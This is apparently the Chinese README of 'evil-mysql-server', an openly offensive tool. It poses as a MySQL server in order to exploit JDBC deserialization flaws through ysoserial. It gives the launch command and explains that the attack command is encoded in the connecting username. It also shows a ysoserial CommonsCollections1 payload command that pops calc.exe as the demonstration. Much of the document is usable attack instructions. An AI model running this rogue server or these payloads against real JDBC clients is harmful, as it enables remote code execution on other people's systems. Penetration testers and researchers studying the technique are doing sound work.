 # evil mysql server

[English](./README.md) | 简体中文

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 [ysoserial](https://github.com/frohoff/ysoserial) 。

使用方式

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```


启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```
